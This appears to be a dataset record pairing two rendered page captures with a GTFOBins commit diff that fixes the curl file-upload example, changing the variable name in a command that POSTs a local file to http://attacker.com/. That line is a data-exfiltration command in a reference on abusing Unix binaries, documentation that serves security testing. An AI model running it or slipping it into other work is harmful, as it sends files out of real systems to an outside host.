

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/curl.md, in a window 1280 px wide. Shown: the part 281-575 px from the top of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Fix file upload example with curl

```diff
--- a/_gtfobins/curl.md
+++ b/_gtfobins/curl.md
@@ -5,7 +5,7 @@ functions:
       code: |
         URL=http://attacker.com/
         LFILE=file_to_send
-        curl -X POST -d @$file_to_send $URL
+        curl -X POST -d @$LFILE $URL
   file-download:
     - description: Fetch a remote file via HTTP GET request.
       code: |
```
